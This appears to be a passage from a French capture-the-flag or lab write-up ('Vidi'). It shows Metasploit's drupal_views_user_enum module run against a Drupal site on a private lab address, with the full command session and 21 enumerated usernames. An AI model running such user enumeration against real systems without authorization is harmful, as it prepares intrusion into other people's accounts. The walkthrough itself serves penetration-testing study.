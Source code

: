 Vidi
----

Je suis passé sous *Metasploit* pour m'intéresser au *Drupal* installé à la racine.  

```
msf> use auxiliary/scanner/http/drupal_views_user_enum
msf auxiliary(drupal_views_user_enum) > show options

Module options (auxiliary/scanner/http/drupal_views_user_enum):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /                yes       Drupal Path
   Proxies                   no        Use a proxy chain
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    80               yes       The target port
   THREADS  1                yes       The number of concurrent threads
   VHOST                     no        HTTP server virtual host

msf auxiliary(drupal_views_user_enum) > set RHOSTS 192.168.1.60
RHOSTS => 192.168.1.60
msf auxiliary(drupal_views_user_enum) > exploit

[*] Begin enumerating users at 192.168.1.60
[*] Done. 21 usernames found...
[+] Found User: Anonymous
[+] Found User: admin
[+] Found User: Barbara
[+] Found User: Dan
[+] Found User: Gene
[+] Found User: George
[+] Found User: Harvey
[+] Found User: Jeff
[+] Found User: Jerome
[+] Found User: Jim
[+] Found User: John
[+] Found User: Johnathan
[+] Found User: Juan
[+] Found User: Michael
[+] Found User: Sally
[+] Found User: Sherry
[+] Found User: Stacey
[+] Found User: Steve
[+] Found User: Susan
[+] Found User: Tom
[+] Found User: Xavier
[*] Usernames stored in: /root/.msf4/loot/20140717193155_default_192.168.1.60_drupal_user_101878.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
